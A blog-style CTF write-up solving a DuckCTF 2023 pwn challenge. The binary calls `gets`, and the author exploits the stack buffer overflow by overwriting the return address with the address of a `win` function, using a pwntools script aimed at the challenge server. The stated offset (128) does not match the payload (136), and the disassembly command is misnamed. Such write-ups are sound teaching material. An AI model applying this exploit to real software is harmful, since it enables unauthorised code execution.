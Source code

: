 ```yaml
---
layout: post
title: DuckCTF 2023 - Return Address Override
date: 2023-08-04T00:00:00.000Z
summary: Ok. So buffer overflows exist, but if I put my data in a different function, my private data will be safe from buffer overflows.
author:	lachlan
categories:
  - ctf
  - write-ups
  - pwn
---
```


# DuckCTF 2023 -- Return Address Override
> *Ok. So buffer overflows exist, but if I put my data in a different function, my private data will be safe from buffer overflows.*
>
> Author: Lachlan

This challenge provides us with the binary, so let us begin by printing the objects in the binary with `objdump -t`:

```
SYMBOL TABLE:
0000000000000000 l    df *ABS*	0000000000000000 crt1.c
0000000000000000 l    df *ABS*	0000000000000000 crtstuff.c
0000000000403e60 l     O .ctors	0000000000000000 __CTOR_LIST__
0000000000403e70 l     O .dtors	0000000000000000 __DTOR_LIST__
0000000000402070 l     O .eh_frame	0000000000000000 __EH_FRAME_BEGIN__
0000000000401090 l     F .text	0000000000000000 deregister_tm_clones
00000000004010c0 l     F .text	0000000000000000 register_tm_clones
0000000000401100 l     F .text	0000000000000000 __do_global_dtors_aux
0000000000404020 l     O .bss	0000000000000001 completed.2
0000000000404028 l     O .bss	0000000000000008 dtor_idx.1
0000000000401190 l     F .text	0000000000000000 frame_dummy
0000000000404040 l     O .bss	0000000000000030 object.0
0000000000000000 l    df *ABS*	0000000000000000 crtstuff.c
0000000000403e68 l     O .ctors	0000000000000000 __CTOR_END__
00000000004020d0 l     O .eh_frame	0000000000000000 __FRAME_END__
00000000004012b0 l     F .text	0000000000000000 __do_global_ctors_aux
0000000000000000 l    df *ABS*	0000000000000000 med.c
0000000000000000 l    df *ABS*	0000000000000000
0000000000403e80 l     O .dynamic	0000000000000000 _DYNAMIC
0000000000402000 l       .eh_frame_hdr	0000000000000000 __GNU_EH_FRAME_HDR
0000000000403fd0 l     O .got	0000000000000000 _GLOBAL_OFFSET_TABLE_
0000000000000000       F *UND*	0000000000000000 gets
0000000000404008 g     O .data	0000000000000000 .hidden __TMC_END__
0000000000403e78 g     O .dtors	0000000000000000 .hidden __DTOR_END__
0000000000000000       F *UND*	0000000000000000 puts
0000000000404000 g     O .data	0000000000000000 .hidden __dso_handle
0000000000401000 g     F .init	0000000000000001 _init
00000000004011d3 g     F .text	00000000000000a0 getName
00000000004011bd g     F .text	0000000000000016 win
0000000000401050 g       .text	0000000000000000 _start
0000000000401066 g     F .text	0000000000000024 _start_c
0000000000404008 g       .bss	0000000000000000 __bss_start
0000000000401273 g     F .text	000000000000002f main
00000000004012f1 g     F .fini	0000000000000001 _fini
0000000000404008 g       .data	0000000000000000 _edata
0000000000404078 g       .bss	0000000000000000 _end
0000000000000000       F *UND*	0000000000000000 __libc_start_main
0000000000404070 g     O .bss	0000000000000008 FLAG
```

As we can see, `gets` is being used, which means this program is likely vulnerable to a buffer overflow with `gets`. So, without trying anything else yet, let us see if we can cause a segfault.

```
python -c "print('a' * 10000)" | ./med
```

Upon running the command above, we get the following error;
```
Segmentation fault (core dumped)
```
Awesome! This means we over-wrote the return address pushed to the stack when calling a function that calls `gets`, and thus when the function tried to return, it returned to a location that does not exist in the binary, therefore throwing an error. Hence, if we work hard enough, we can tell the function to return to a location we desire (perhaps a part of the binary that prints the flag).

To do this, we need to:

1) Determine exactly how many characters are required in our input before we start changing the return address (this is called the offset)
2) Find a location that runs the code we want to run (say print the flag)

The first job is easy enough. We know that 10000 characters is too many, so how about 500? That also segfaults. So how about 250? Yep, still segfaults. What about 100? Nope. Runs fine. 128? Yes. 127? Nope! This means that the offset is 128 characters (it is not 127 as there is a new line character, so when we entered 127 characters, there were really 128 characters sent, all of which did not change the return address). So our payload should be 128 random characters followed by our desired address.

To find a location in the code we might want to jump to, we can look at our symbols table again. We see that there is a function called `win`, and if we look at the assembly for `win` (with `objdump -t`);

```
00000000004011bd <win>:
  4011bd:       55                      push   %rbp
  4011be:       48 89 e5                mov    %rsp,%rbp
  4011c1:       48 8b 05 a8 2e 00 00    mov    0x2ea8(%rip),%rax        # 404070 <FLAG>
  4011c8:       48 89 c7                mov    %rax,%rdi
  4011cb:       e8 60 fe ff ff          call   401030 <puts@plt>
  4011d0:       90                      nop
  4011d1:       5d                      pop    %rbp
  4011d2:       c3                      ret
```

we can see that it will print the flag. So let us jump to `win` which is at address `0x004011bd`.

The following program does just this
```python=
from pwn import *

# Remote
shell = remote('chall.duckctf.com', 30003)

# Local with test flag
#shell = process(['./med', "flag{test flag}"])

winAddress = 0x004011bd

payload = b'a' * 136 + p64(winAddress)

shell.sendline(payload)
shell.interactive()
```

Running this gives the flag `quack{a_simple_return_address_override}`.
